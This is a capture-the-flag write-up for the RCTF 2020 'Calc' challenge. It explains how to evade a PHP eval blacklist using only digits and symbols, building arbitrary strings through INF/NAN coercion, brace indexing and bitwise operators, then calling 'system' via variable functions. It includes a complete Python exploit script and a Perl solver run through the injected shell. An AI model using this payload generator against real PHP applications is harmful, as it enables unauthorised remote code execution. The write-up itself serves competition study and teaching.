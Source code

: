 ```yaml
---
layout: post
title:  "Calc - a WAF bypass for arbitrary code execution in PHP using just numbers and symbols (RCTF 2020)"
date:   2020-06-10 07:55:19 -0400
categories: web rctf2020 php
---
```


## Introduction

Here's an interesting problem I solved from the recent RCTF. We are given a web form that allows us to input values and operations to a calculator and the results will be printed. For example, the query `1+1` would give us `2`. _(I didn't take a screenshot of the normal operation when the competition server was still up, so you would have to use your own imagination)_. It's highly likely that the backend is doing some sort of `eval` to perform this arithmetic operation, so we investigate further.


## Enumeration
We see that the endpoint of the POST request containing the arithmetic operation is to `/calc.php`, so we make a GET request, which recovers the the source code below:

{% highlight php %}
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
    $str = $_GET['num']; 
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ',']; 
    foreach ($blacklist as $blackitem) { 
        if (preg_match('/' . $blackitem . '/im', $str)) { 
            die("what are you want to do?"); 
        } 
    } 
    @eval('echo '.$str.';'); 
} 
?> 
{% endhighlight %}

We see that our parameter `num` is assigned to `$str` and passed into `eval`. This means we can have remote code execution if we bypass the blacklist! 

#### A small aside: How to know if it's PHP

Of course, we were given full source code recovery for this challenge (I actually didn't know about this until a teammate told me about it after I completed the challenge). From the execution of the code there are some heuristics that we can use to determine the backend for the code evaluation:

1. **Response Headers.** The headers returned in the response might indicate the backend used to evaluate your request. For example, in the challenge, the response had a `X-Powered-By` header with the value `PHP/7.4.6`.
2. **Rendering of special floats.** In PHP, evaluation `1/0` gives you `INF` and `0/0` gives you `NAN` without throwing an exception (but it does show a warning), which I believe is unique to PHP.


## Blacklist/WAF bypass - Using just numbers and symbols for ACE

Now comes the interesting part of the challenge. As a lazy hacker I went to look for existing WAF bypasses in PHP and came across [this article on bypassing WAF without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/). While this may seem at first to work, the subset of symbols that we are allowed is much more restricted. For example, we do not have the `$` operator so we can't define new variables, nor can we define arrays (since `[` and `]` are blocked) or strings (since `'` and `"` are blocked). However, the article does elucidate an interesting fact: *if we can construct arbitrary strings, we are done*.

### Fun function calls via variable functions
But you might be wondering, how do we call functions using just a string? I am glad you asked. I didn't believe it at first, but you can simply call functions in PHP just by their stringified identifier. You can try this yourself by running the following code snippet.

{% highlight php %}

<?php

function foo() {
    echo "In foo()<br />\n";
}

'foo'();

{% endhighlight %}

The output that is returned is `In foo()<br />`, which means the function `foo` was called. This is due to a feature in PHP known as [**variable functions**](https://www.php.net/manual/en/functions.variable-functions.php). From the PHP docs:

>  if a variable name has parentheses appended to it, PHP will look for a function with the same name as whatever the variable evaluates to, and will attempt to execute it ... this can be used to implement callbacks, function tables, and so forth.

Note that this function calling convention, like normal PHP functions, is ___case insensitive___, but we won't be using that fact here.

However, there is a caveat:

> Variable functions won't work with language constructs such as echo, print, unset(), isset(), empty(), include, require and the like

A list of language constructs can be found [here](https://www.php.net/manual/en/reserved.keywords.php). A quick glance through the list and we find that our desired function to call (`system`) is not on the list. This means we are good to go!


### Constructing characters

What's left is actually constructing the characters. The blacklist essentially gives us numeric inputs and a limited subset of symbols.

#### Baby's First String
I quickly managed to find a way of constructing a string using the following payload:

{% highlight php %}
(0).(0) // evaluates to '00'
{% endhighlight %}


This is allowed because PHP is loosely typed and the [string concatenation operator](https://www.php.net/manual/en/language.operators.string.php) `.` coerces the type of the operands to be strings, so the result is the string `00`. Note that if the parentheses were removed, we would get `0.0` which is a float.


Speaking of floats, I decided to try something interesting. Recall that we previously tried to use special numbers in floats to identify the backend. In this case, we can concatenate two of these special floats together to form a cute string.

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
(0/0).(0/0) // evaluates to "NANNAN" (batman)
{% endhighlight %}


So we technically have the strings `"NAN", "INF", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`, but any combination of these strings won't give us shell _(yet)_, we have to dig deeper!

#### Looking for more primitives
I got stuck here for quite a bit and decided to look for all possible operators in PHP. I did browse around and managed to find that `->`, `=>`, `{`, `}` and `::` are legal operators through extensive web searching (thanks Google!). While writing this article I found a more [extensive list of tokens that are used in PHP](https://www.php.net/manual/en/tokens.php) which would have been a much better resource.

I toyed around with the idea of using `->` (which is the `T_OBJECT_SEPARATOR` used to assign and retrieve values from an object), `=>` (which is the `T_DOUBLE_ARROW` used to assign values in an array), and `::` (which is a [scope resolution operator](https://www.php.net/manual/en/language.oop5.paamayim-nekudotayim.php) which has a pretty interesting history behind its name) before realizing they won't work.

Finally, we are left with `{` and `}`. These symbols are actually pretty interesting - a quick tl;dr of what happened was that they were introduced to replace `[` and `]` as array accesses, but later realized it was a bad idea, so they deprecated it and tried to revert the change but then realized that was a bad idea too. Now, [it can be used interchangeably](https://www.php.net/manual/en/language.types.array.php) and [works for string array index access as well](https://www.php.net/manual/en/language.types.string.php), though it does warn that it would be deprecated in newer versions of PHP. That aside, we now have the following string index access primitive:

{% highlight php %}
(1/0).(1/0) // evaluates to "INFINF"
((1/0).(1/0)){0} // evaluates to "I"
{% endhighlight %}

So we now have the strings `"N", "A", "I", "F", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9"`. We can also add additional characters like `"."` from coercing floats to strings and `"-"` by coercing negative numbers, but we still don't have the right letters to construct calls to functions that we want, and we still can't construct arbitrary characters. If only we had some way of changing these characters...

#### Quick Math with Strings

I continued to play around to see how to change the characters (either by incrementing them or decrementing them like via `++`) but without variable declarations this was impossible. I later came across a [Web CTF resource](https://github.com/w181496/Web-CTF-Cheatsheet) that hinted to look at the `~` operator, which is the bitwise not operator. I tried it and lo and behold:

{% highlight php %}
(((0/0).(1)){0}).(~((1).(1/0))) // evaluates to Nζ��
{% endhighlight %}

Finally we are getting somewhere! We see that we have constructed some other character that is not in our original list of characters. It seems that [bitwise operations](https://www.php.net/manual/en/language.operators.bitwise.php) like `|`, `&`, `^` and `~` are also defined for strings in PHP. Note that we can't use `^` since it's banned, and `>>` and `<<` coerces the type of the operands to be integers. We can now construct printable ASCII, as below.

{% highlight php %}
(((1/0).(1/0)){0})|((1).(1)){0} // evaluates to 'y'
{% endhighlight %}

With these bitwise operators, we can easily construct any 7-bit ASCII character if we get the equivalent representation of `chr(1)`, `chr(2)`, `chr(4)`, `chr(8)`, `chr(16)`, `chr(32)` and `chr(64)`. We do some quick math (aka figuring out how to extract each of these bits from the characters we already have) and we have the following mapping for each of these bits.

{% highlight python %}
mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}
{% endhighlight %}

For example, the ASCII letter `a` which corresponds to the ordinal `97` or `0b1100001` can be constructed as follows:

{% highlight php %}
(1).(1){0}&((0/0).(0)){1} | ((0).(0){0})&(((1.5).(0)){1}) | (((1/0).(1)){0})&(((1/0).(1)){2})  // evaluates to chr(64 | 32 | 1) == 'a'
{% endhighlight %}

Now we can form arbitrary strings from arbitrary characters via the `.` string concatenation operator. Combining with the variable functions trick as above, we can call the equivalent of `'system'('uname -a')` to see if we can run arbitrary shell commands. We send it to the server we see that we have achieved arbitrary code execution!

![Shell get! Output of uname -a](/images/rctf2020-shell.png "Shell get!")

Enumerating the environment, we find a `/readflag` binary. We execute it, and we realize that this isn't the end!

![Readflag sadness](/images/rctf2020-puzzle.png "Readflag sadness")

### Breaking The readflag Puzzle

I didn't really like the next part of the challenge so much, as you will see why. Using the same script, I exfiltrated the readflag binary out and analyzed it. Long story short, it throws you a math challenge that you have to solve in 1ms. This means that you are supposed to get shell on the system to run a script that solves the problem, but a reverse shell wasn't possible due to network isolation. 

I looked up this online (since CTFs in the east tend to be inspired by previously released challenges) and [found the exact same readflag binary and with solve scripts in various languages described](https://www.secpulse.com/archives/105333.html). TL;DR my solution was to write one of the solve scripts to `/tmp` and execute it to get the flag. 

In writing the script to a file, I had to break it up into short chunks per line since the encoding for each byte was fairly large. It is worth noting that other teams found interesting ways of bypassing the URL parameter length limit (which I found to be around 8000-ish bytes), and the [ROIS team's writeup](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc) details interesting alternative solutions to this problem.

Balsn also has a bunch of tricks that they use to solve the `readflag` binary, as noted [here](https://balsn.tw/ctf_writeup/20190427-*ctf/#solve_readflag-(not-a-challenge)).

## Final Script

The final solve scripts are provided below.

### solve.py
{% highlight python %}
#!/usr/bin/env python

import requests
import sys
import pipes

url='http://124.156.140.90:8081/calc.php?'

mapping = {
    64: "(((1/0).(1)){0})&(((1/0).(1)){2})",
    48: '(0).(0){0}',
    32: "((0).(0){0})&(((1.5).(0)){1})",
    16: "(~(((1.5).(0)){1}&(((0).(0)){0})))&(0).(0){0}",
    8: "(8).(8){0}&((1/0).(0)){0}",
    4: "(4).(4){0}&((1/0).(0)){2}",
    2: "(2).(2){0}&((1/0).(0)){1}",
    1: "(1).(1){0}&((0/0).(0)){1}"
}

idxs = [64, 48, 32, 16, 8, 4, 2, 1]

def construct_char(c):
    val = ord(c)

    payload = "("
    for idx in idxs:
        if (val >= idx):
            val -= idx
            payload += mapping[idx]
            if (val != 0):
                payload +='|'

    assert val == 0
    payload += ")"

    return payload

def construct_string(s):
    payload = "("
    for i, c in enumerate(s):
        payload += construct_char(c)
        if (i != len(s) - 1):
            payload += "."

    payload += ")"
    return payload

def call_fn(f, a):
    fn_s = construct_string(f)
    fn_a = construct_string(a)
    return fn_s + "(" + fn_a + ")"

### Actually solve for flag
# write the evil file to solves the puzzle
f = open('solve.perl', 'rt')
solver = f.read().split('\n')
f.close()

for s in solver:
    d = call_fn("system", """echo %s>>/tmp/b""" % pipes.quote(s))
    params = {'num': d }
    r = requests.get(url, params=params)
    print r.text

d = call_fn("system", """cat /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", """perl /tmp/b""")
params = {'num': d }
r = requests.get(url, params=params)
print r.text

d = call_fn("system", "rm /tmp/b")
params = {'num': d }
r = requests.get(url, params=params)

### Uncomment to run arbitrary commands
#FUNCTION = "system"
#ARG = sys.argv[1]

#d = call_fn(FUNCTION, ARG)
#print len(d)
#print d

#params = {'num': d }
#r = requests.get(url, params=params)
#print r.text

{% endhighlight %}

### solve.perl
{% highlight perl %}
use 
IPC::Open3;
my $pid = 
open3( 
\*CHLD_IN, 
\*CHLD_OUT, 
\*CHLD_ERR, 
"/readflag"  
);
my $r;
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
$r=eval 
"$r";
print 
"$r\\n";
print 
CHLD_IN 
"$r\\n";
$r=
<CHLD_OUT>;
print "$r";
$r=
<CHLD_OUT>;
print "$r";
{% endhighlight %}


Relevant Resources:

- [Bypassing WAF for PHP webshell without letters or numbers](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)
- [w181496's Web CTF Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)
- [ROIS's Writeup for Calc at RCTF2020 which explores alternative ways of loading the shell command to bypass the URL param size limit](https://blog.rois.io/en/2020/rctf-2020-official-writeup-2/#Calc)
- [EasyCalc at RoarCTF-2019, the precursor to this challenge](https://github.com/berTrAM888/RoarCTF-Writeup-some-Source-Code/tree/master/Web/easy_calc/writeup)
- [PHP Query String Parser Bypass](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/)

Hack on!